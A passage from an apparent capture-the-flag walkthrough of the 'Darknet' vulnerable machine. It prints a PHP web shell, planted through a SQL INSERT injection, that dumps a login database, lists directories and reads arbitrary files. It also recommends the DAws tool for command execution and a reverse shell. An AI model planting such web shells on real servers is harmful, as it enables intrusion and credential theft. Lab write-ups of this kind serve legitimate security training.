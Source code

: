 Not to worry, I got this. I knocked up a quick PHP script to do some work for me

{% highlight php %}
if ($_GET["cmd"] == "db") {                                                     
    $dbhandler=new SQLite3("/home/devnull/database/888-darknet.db");            
                                                                                
    $query = $dbhandler->query("SELECT * FROM login");                          
                                                                                
    while($result=$query->fetchArray()){                                        
        print_r($result);                                                       
        print "<br/>";                                                          
    }                                                                           
}                                                                               
                                                                                
if ($_GET["cmd"] == "ls") {                                                     
    $path = $_GET["arg"];                                                       
    @chdir($path);                                                              
    $dir = @dir($path);                                                         
    while($d = $dir->read()) {                                                  
        print $d."<br/>";                                                       
    }                                                                           
}                                                                               
if ($_GET["cmd"] == "cat") {                                                    
    $file = $_GET["arg"];                                                       
    $fh = fopen($file, "r");                                                    
    if ($fh) {                                                                  
        while ($l = fgets($fh)) {                                               
            print htmlspecialchars($l)."<br/>";                                 
        }                                                                       
        fclose($fh);                                                            
    } else { print "Cannot open ".$file."<br/>"; }                              
} 
{% endhighlight %}

I use this as the payload in the `INSERT` statement.

With the `cmd` parameter I can now list directories and cat files. The database
details were added once I had got the details from the db file in the `includes` folder.

I scoped around the server a bit, looking in the usual interesting folders, seeing if there's 
anything useful. Eventually I found something interesting in the Apache
config folder. There's another virtual host on this machine at `signal8.darknet.com`. 

Before I go on, I best mention [DAws](https://github.com/dotcppfile/DAws) which 
will make your life super easy. I crafted a file uploader in PHP which I put on the
server with the SQL admin trick above, and then uploaded the `DAws.php` file. This
will drop a `php.ini` on the server that allows you to run commands, and also create
a reverse shell to your host. **Much** easier than what I did, but you learn new things 
all the time. This will be the PHP script I'll be using going forward.

# Stage 3

Ok, so now I'm looking at the list of Darknet staff. Clicking on the usernames will take 
me to a php page showing me that user's email. While I ponder the significance of this
I check for a robots.txt file and this time there is one. It lists a directory 
called `xpanel` which prompts me for another username and password combo. 
No SQLi here though I'm afraid. I cannot bruteforce this either. Well I *could* 
but I don't think I'll get a hit any time soon.
